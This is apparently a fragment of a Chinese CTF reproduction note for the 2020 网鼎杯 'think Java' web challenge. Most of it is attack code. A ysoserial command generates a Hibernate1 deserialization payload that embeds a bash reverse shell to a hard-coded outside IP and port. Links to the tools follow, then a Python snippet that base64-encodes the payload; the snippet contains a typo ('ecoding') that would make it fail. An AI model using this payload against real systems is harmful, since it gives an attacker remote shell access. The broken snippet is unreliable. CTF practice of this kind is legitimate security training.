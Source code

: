 









```bash
java -Dhibernate5 -cp hibernate-core-5.4.9.Final.jar;ysoserial-master-d367e379d9-1.jar ysoserial.GeneratePayload Hibernate1 "bash -c 'exec bash -i &>/dev/tcp/121.4.97.34/5812 <&1'" > payload.bin
```





## 2020-网鼎杯-朱雀组-Web-think Java真题复现













# 涉及资源

https://github.com/frohoff/ysoserial/releases

https://github.com/WebGoat/WebGoat/releases

https://github.com/NickstaDB/SerializationDumper/releases/tag/1.12



```python
import base64

c=open("payload.bin","rb").read()
cc=base64.urlsafe_b64encode(c)
open("payload.txt","wt",ecoding="utf-8").write(cc.decode())
```

